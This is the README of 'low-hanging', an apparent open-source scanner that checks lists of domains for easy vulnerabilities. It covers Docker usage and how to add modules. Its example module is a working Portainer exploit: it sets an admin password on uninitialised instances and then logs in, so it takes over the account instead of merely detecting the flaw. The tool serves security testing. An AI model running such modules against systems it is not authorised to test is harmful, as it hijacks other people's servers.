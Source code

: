 # low-hanging
Lightweight and extensible horizontal vulnerability scanner. Pass list of domains and check for low hanging fruits.

Made to be easily extensible. Adding more checks is just few lines of code with 
pre-initialized `requests-http` session ()with nice features like JS rendering).

Inspired by https://github.com/tomnomnom/meg, but made to be easily pluggable into your fully automated workflow.

## Usage
```bash
$ docker run s14ve/low-hanging --help
Usage: low_hanging.py [OPTIONS]

Options:
  -i, --input TEXT       Path to file with list of domains/IPs separated by
                         newline.
  -t, --threads INTEGER  Number of threads with which you want to run.
  -o, --output TEXT      Output files to file in json format.
  --help                 Show this message and exit.
``` 

## Adding Modules
Adding modules is quite simple, yet it requires some manual work with imports. This will get improved in the future.
For now, bear with me and check [example commit](https://github.com/janmasarik/low-hanging/commit/e2ebe80a3bb8f7c7e02c73c48e8caaeb847f18c9).

## Example Module
```python
from urllib.parse import urljoin
from low_hanging.base_worker import BaseWorker

class PortainerAdmin(BaseWorker):
    name = "portainer_admin_reset"
    references = ["https://github.com/portainer/portainer/issues/493"]
    def run(self):
        r = self.session.post(
            urljoin(self.domain, "/api/users/admin/init"),
            json={"username": "admin", "password":"definitely_valid"}
        )

        if r.status_code in (404, 409):
            r = self.session.post(
                urljoin(self.domain, "/api/auth"),
                json={"username": "admin", "password":"definitely_valid"}
            )
            if r.status_code < 400:
                return r.url  # If successful, return the URL for which the exploit is valid
```

